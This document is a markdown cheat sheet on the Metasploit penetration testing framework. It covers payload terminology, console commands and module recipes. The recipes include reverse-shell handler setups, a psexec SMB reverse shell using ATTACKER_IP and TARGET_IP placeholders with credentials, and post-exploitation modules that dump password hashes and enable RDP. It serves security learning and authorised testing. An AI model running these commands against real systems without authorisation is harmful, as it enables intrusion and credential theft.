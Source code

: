 ```yaml
---
title: METASPLOIT
summary: A penetration testing framework.
description: A penetration testing framework.
---
```


**[https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)**

## Terminology

### Non-Staged Payload

**Non-staged (Singles or Inline) payload are sent all at once.**

Example: windows/meterpreter_reverse_tcp.

### Staged Payload

**Staged payloads are sent in two steps:** an initial part is installed (the stager) and requests the rest of the payload. This allows for a smaller initial payload size.

Example: windows/meterpreter/reverse_tcp.

### Modules

* **Exploits:** Exploits.
* **Payloads:** Payloads (exploit + goal).
  * **Singles:** Self-contained payloads that do not need to download an additional component to run.
  * **Stagers:** Responsible for setting up a connection channel between Metasploit and the target system. Useful when working with staged payloads. 
  * **Stages:** Downloaded by the stager. This will allow you to use larger sized payloads.
* **Evasion:** Try to bypass antivirus. 
* **Auxiliary:** Supporting modules such as scanners, crawlers and fuzzers.
* **Post:** Post exploitation.

### Exploit Ranking

![tool-metasploit-terminology-exploit_ranking.png](../../attachments/tool-metasploit-terminology-exploit_ranking.png)

Source: https://docs.metasploit.com/docs/using-metasploit/intermediate/exploit-ranking.html

## Console


 > 
 > **<font color=red>msfdb init</font>**</br>
 > Initialize database.
 > 
 > **<font color=red>msfconsole</font>**</br>
 > Start metasploit console.
 > 
 > **<font color=red>db_status</font>**</br>
 > Check database connection.

 > 
 > **<font color=red>search </font>\[SERVICE_TO_EXPLOIT\]**</br>
 > Search for an exploit to use against the specified service.
 > 
 > **<font color=red>use</font> \[MODULE\]**</br>
 > Select a module.
 > 
 > **<font color=red>use auxiliary</font>**</br>
 > Select an auxiliary module. 

 > 
 > **<font color=red>info</font>**</br>
 > Display information about selected module.
 > 
 > **<font color=red>show options</font>**</br>
 > Show variables (options) of selected module.

 > 
 > **<font color=red>set</font> \[VARIABLE\] \[VALUE\]**</br>
 > Set variable (option) of selected module.
 > 
 > **<font color=red>setg</font> \[VARIABLE\] \[VALUE\]**</br>
 > Set variable (option) globaly (for all modules).
 > 
 > **<font color=red>unset</font> \[VARIABLE\] \[VALUE\]**</br>
 > Unset variable.

 > 
 > **<font color=red>exploit</font>**</br>
 > Run the exploit (**<font color=red>-j</font>** to run it in background job). **run** is an alias to exploit.

 > 
 > **<font color=red>sessions -l</font>**</br>
 > List opened sessions.
 > 
 > **<font color=red>sessions</font> 1**</br>
 > Open session 1.
 > 
 > **<font color=red>background</font>**</br>
 > Background session (Ctrl + z).

 > 
 > **<font color=red>connect</font> \[HOST\]**</br>
 > Netcat like connection.
 > 
 > **<font color=red>spool</font>**</br>
 > Write console output into a file as well the screen.

## Modules

### Handler Multi


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/multi/handler</font>**</br>
 > 
 > **<font color=red>set payload linux/x86/meterpreter/reverse_tcp</font>**</br>
 > **<font color=red>exploit</font>**</br>
 > Handler for linux (efl) reverse shell.


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/multi/handler</font>**</br>
 > 
 > \*\*<font color=red>set payload windows/x64/meterpreter/reverse_tcp</font> \*\*</br>
 > **<font color=red>exploit</font>**</br>
 > Handler for Windows Meterpreter.

### Reverse Shell Windows


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/windows/smb/psexec</font>**
 > 
 > **<font color=red>set lhost</font> \[ATTACKER_IP\]**</br>
 > **<font color=red>set rhosts</font> \[TARGET_IP\]**</br>
 > **<font color=red>set smbdomain</font> \[TARGET_DOMAIN\]**</br>
 > **<font color=red>set smbuser </font>\[TARGET_USER\]**</br>
 > **<font color=red>set smbpass</font> \[TARGET_IP\]**</br>
 > **<font color=red>set payload </font>windows/x64/meterpreter/reverse_tcp**</br>
 > **<font color=red>exploit</font>**</br>
 > Create a reverse shell from a SMB share.

### Post Exploit Multi


 > 
 > **<font color=red>use</font> <font color=lightblue>multi/manage/shell_to_meterpreter</font>**</br>
 > Upgrade shell to a Meterpreter session.


 > 
 > **<font color=red>use</font> <font color=lightblue>post/multi/recon/local_exploit_suggester</font>**</br>
 > Check exploits for privilege escalation.

### Post Exploit Windows


 > 
 > **<font color=red>use</font> <font color=lightblue>post/windows/gather/checkvm</font>**</br>
 > Check if the machine a VM.

 > 
 > **<font color=red>use</font> <font color=lightblue>post/windows/manage/enable_rdp</font>**</br>
 > Try to enable RDP.

 > 
 > **<font color=red>use</font> <font color=lightblue>post/windows/gather/enum_shares</font>**</br>
 > Enumerate shares.

### Post Exploit Linux


 > 
 > **<font color=red>use</font> <font color=lightblue>linux/gather/hashdump</font>**</br>
 > Dump users hashes.

### Auxiliary SMB


 > 
 > **<font color=red>use</font> <font color=lightblue>auxiliary/scanner/smb/smb_enum_gpp</font>**</br>
 > Detect vulnerable GPP policies (credentials encrypted with leaked key).

